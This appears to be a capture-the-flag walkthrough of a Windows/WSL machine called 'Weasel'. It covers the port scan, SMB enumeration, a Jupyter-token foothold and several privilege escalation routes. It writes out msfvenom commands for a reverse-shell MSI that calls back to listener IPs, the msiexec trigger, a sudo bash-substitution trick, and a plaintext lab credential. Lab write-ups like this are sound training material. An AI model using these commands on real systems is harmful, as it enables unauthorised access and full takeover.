# Weasel

**Hostname:**
`DEV-DATASCI-JUP`

**OS:**
`Windows_NT`
with
`WSL Linux`

**Users:**
`husky`
`dev-datasci-lowpriv`

**Credentials:**
`dev-datasci-lowpriv:wUqnKWqzha*W!PWrPRWi!M8faUn`

## Port Scan:

```
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
|_  256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-08T19:04:24+00:00
|_ssl-date: 2025-06-08T19:04:32+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2025-06-07T18:41:32
|_Not valid after:  2025-12-07T18:41:32
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8888/tcp  open  http          Tornado httpd 6.0.3
|_http-server-header: TornadoServer/6.0.3
| http-robots.txt: 1 disallowed entry 
|_/ 
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-08T19:04:27
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

## Recon:

### SMB:

**NetExec Anonymous user share enumeration:**
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
datasci-team    READ,WRITE      
IPC$            READ            Remote IPC
```

**NetExec user RID enumeration:**
```
500: DEV-DATASCI-JUP\Administrator (SidTypeUser)
501: DEV-DATASCI-JUP\Guest (SidTypeUser)
503: DEV-DATASCI-JUP\DefaultAccount (SidTypeUser)
504: DEV-DATASCI-JUP\WDAGUtilityAccount (SidTypeUser)
513: DEV-DATASCI-JUP\None (SidTypeGroup)
1000: DEV-DATASCI-JUP\dev-datasci-lowpriv (SidTypeUser)
1001: DEV-DATASCI-JUP\sshd (SidTypeUser)
```

**Contents of datasci-team share:**
```
  .ipynb_checkpoints                 DA        0  Thu Aug 25 17:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 17:26:46 2022
  misc                               DA        0  Thu Aug 25 17:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 17:26:46 2022
  papers                             DA        0  Thu Aug 25 17:26:47 2022
  pics                               DA        0  Thu Aug 25 17:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 17:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 17:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 17:26:46 2022
```


### HTTP Port 8888

**Server:**
`Tornado 6.0.3`

**Technologies:**
`Jupyter Notebook`


## Foothold / Privilege Escalation:

### Initial Foothold

I was able to get initial access due to a misconfigured SMB share that allowed anonymous logins and which contained a jupyter notebook access token.





And since I found a Jupyter dashboard running on port 8888, I was able to use that token to login into the dashboard.



Inside the dashboard I found a weasel.ipynb file which contained some python code and I was allowed to run it inside the server. I edited the file to contain a python reverse shell command and executed it after setting up my listener.




I got a shell inside a WSL Linux container, and inside the user's home directory I found an SSH key for a dev-datasci-lowpriv user. I then used that SSH key to login into the Windows machine directly as that user.





---

### Privilege Escalation:

To enumerate quicker I transferred myself winpeas using the SMB share.



I ran winpeas as the dev-datasci-lowpriv user and found Windows Autologon credentials and a privilege escalation technique through AlwaysInstallElevated configuration setting. This setting will enable me to install all Windows installer packages (.msi) with administrative privileges.





To exploit this I used msfvenom to craft a malicious .msi file which I uploaded through SMB.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.23.113.200 LPORT=4242 -a x64 --platform Windows -f msi -o exploit.msi`

On the windows machine I entered powershell and ran:
```
runas /u:dev-datasci-lowpriv "msiexec /qn /i exploit.msi"
```

Which triggered a connection as the Administrator user to my netcat listener.



### Alternative Privilege Escalation

- Using WSL

As the user dev-datasci I ran `sudo -l` and found that I can run the /home/dev-datasci/.local/bin/jupyter as the root user without a password, and since the jupyter binary was not there I copied the /bin/bash binary to /home/dev-datasci/.local/bin and called it jupyter.
So when executing:
`sudo /home/dev-datasci/.local/bin/jupyter`
I get a root shell inside the container.
To access the Windows machine I needed to mount the C drive to the container.



```
cd /mnt
mount -t drvfs 'c:' /mnt/c
```

This will enable me to traverse the Windows C drive and access the Administrator user directory from inside the WSL container.

## Journal:

`mount -t drvfs 'c:' /mnt/c`
- Mount the C drive from the HOST Windows machine to the Linux running inside WSL

Another way of Privilege Escalation would be through the AlwaysInstallElevated configuration setting in the Windows policy.
- AlwaysInstallElevated permits Windows installer packages (.msi) to always be installed with administrative privileges by any user


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
```
- Malicious msi file used to exploit

```
runas /u:dev-datasci-lowpriv "msiexec /qn /i evil.msi"
```
- Runs the malicious msi file and connects to the listener